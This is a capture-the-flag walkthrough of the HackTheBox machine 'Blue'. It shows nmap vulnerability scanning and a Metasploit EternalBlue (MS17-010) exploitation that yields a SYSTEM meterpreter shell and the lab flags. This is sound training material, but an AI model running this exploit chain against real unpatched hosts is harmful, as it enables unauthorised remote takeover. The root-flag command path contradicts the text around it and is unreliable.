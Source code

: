 # HackTheBox Writeup: Blue
!(Blue Details)[/Blue/images/Blue-Details.png]

Blue is an easy Windows-based retired box available on HackTheBox. It is also one of the OSCP-like boxes available to practice on. In this walkthrough, I will guide you through the process compromising Blue.

## System Setup and Initial Steps
I’ll be using a somewhat customized version of Kali Linux running in a virtual machine for this guide. These steps are reproducible in a default installation of Kali Linux, but you may have to install some additional tools.

I like to make a dedicated folder for each box to keep track of any scan results or exploits we need to work with. I normally use the convention of saving them to a folder such as `~/HackTheBox/[boxname]`.

Before beginning, you have to connect to HackTheBox using the VPN connection package they provide you with when you register an account. I use small script I wrote to do so quickly (which I will make available on my github). I have the script aliased to ‘hackthebox-connect’. The script also outputs your IP address on the HackTheBox network, which will be useful when we start attacking the box.

!(hackthebox-connect)[/Blue/images/hackthebox-connect.PNG]

## Initial Enumeration
Blue is located at 10.10.10.40. The first step is to scan the system using a scanner such as `nmap`.

### Nmap Scanning
I like to run nmap in two different sets of scans. The first scan is a quick scan to get us started on the box. The second scan is a more intensive scan that will check every port.
To run a relatively fast scan that will check each service, attempt to discover the operating system of the target system, and run a few additional nmap scripting engine scripts, you can use the following command:
```
nmap -sV -sC -O 10.10.10.40 -oN Blue-quick.nmap
```
The above command will save its output in a file called `Blue-quick.nmap`, which you can check the contents of using `cat` or `less`. This scan shows us the following:

!(Quick Nmap Scan)[/Blue/images/Blue-Quick-Nmap.PNG]

I also find it helpful to do a more fulsome nmap scan. This normally takes a while, so I leave it running in the background while I get started with the quick scan. I normally run something similar to:
```
nmap -p- -sV -sC -O -A -v -T4 --script vuln 10.10.10.40 -oN Blue-full.nmap
```
The key component to this scan is that it checks all TCP ports with `-p-` and it runs the "vuln" category of nmap scripting engine scripts, which will scan the target for vulnerabilities. Here, the output of this command includes the following:

!(Full Nmap Scan)[/Blue/images/Blue-Full-Nmap.PNG]

### Other Initial Enumeration Techniques
`nmap` is a tool that is generally available by default in the default depositories of most Linux distributions, so it is generally preferable to use it and be familiar with it since you will likely always have access to it.

For HackTheBox and other CTF challenges, you can take a look at some tools that are designed to make the process go faster. For example, [AutoRecon](https://github.com/Tib3rius/AutoRecon) can quickly launch a number of scans against a target system. It saves the output of each scan in a dedicated file, making it easy to go back and review.

### Thinking About Enumeration Results
Based on our nmap scanning, we know that the target is a Windows machine. Our fulsome nmap scan is also reporting that the box is running a vulnerable version of [SMB](https://www.wikiwand.com/en/Server_Message_Block).

Although there are a number of ports open here and many potential paths forward, our fulsome nmap scan has presented us with a path of least resistance.

If we search the internet for `smb-vuln-ms17-010` and `CVE-2017-0143`, it doesn't take long to find that CVE-2017-0143 is related to a family of [other vulnerabilities](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) which allow for remote code execution. Some further digging will reveal the namesake of the box: the exploit for this family of vulnerabilities is called [EternalBlue](https://www.wikiwand.com/en/EternalBlue). We can thank the NSA for developing the exploit and making our path forward clear.

## Exploiting the SMB Vulnerability
Since EternalBlue is a relatively (in)famous exploit, there is a metasploit module for it. We can start metasploit with `msfconsole`.

!()[/Blue/images/msfconsole.PNG]

Then, we can run a search for available modules by running:
```
search eternalblue
```
or
```
search ms17-010
```
or
```
search 2017-0143
```
!(Search for modules)[/Blue/images/metasploit-search.PNG]

Now we have a list of available modules. Modules #2-5 are exploits, so we want to focus here. Module 5 on first glance appears to be the best, with a rank of 'Great' and the ability to check if the target is vulnerable, but Blue is not actually vulnerable to the doublepulsar exploit. The next best one is #2, which provides us with the ability to check to see if the exploit works. You will now want to select that module with the following command:
```
use exploit/windows/smb/ms17_010_eternalblue
```
Now that we have the module selected, we need to customize the options to make sure it works in this specific circumstance. Check the available options by running `options`. You then need to configure them with the following commands:
```
set RHOSTS [the target's IP address. In this case, 10.10.10.40]
set LHOST [Your HackTheBox IP address (outputted by hackthebox-connect). Using tun0 here also works.]
```
!(Setting the options)[/Blue/images/metasploit-set-options.PNG]

Now you can check to see if the target is vulnerable by running `check`.

!(Check)[/Blue/images/metasploit-check.PNG]

Now initiate the exploit with `run` and you should be dropped into a meterpreter shell.
!(Exploit)[/Blue/images/metasploit-exploit.PNG]

We can check what our username is by using the mterpreter command `getuid`, which shows that we are NT AUTHORITY\SYSTEM.
!(Getuid)[/Blue/images/metasploit-getuid.PNG]

## Post-Exploitation
### Getting the User Flag
We can get a shell on the system by running the meterpreter command `shell`. Once we have a shell, we can poke around the system. First, we can check who the users are by running:
```
dir C:\Users
```
!(Users Directory)[/Blue/images/dir-users.PNG]

And now we can check through haris' home folder. On the Desktop, you will find a file called `user.txt`, which we can read with the command `type C:\Users\haris\Desktop\user.txt`.

!(User Flag)[/Blue/images/Enumerate-Haris-Home.PNG]

Now we have the user flag!

### Getting the Root Flag
We know that we are NT AUTHORITY\SYSTEM, so we should be able to access the files in the "Administrator" user folder. Looking through the Administrator's files using `dir`, we find the file `root.txt` on the Desktop, which we can read with the command `type C:\Users\haris\Administrator\root.txt`.

!(Root Flag)[/Blue/images/Enumerate-Administrator-Home.PNG]

You now have the root flag and have completed Blue!
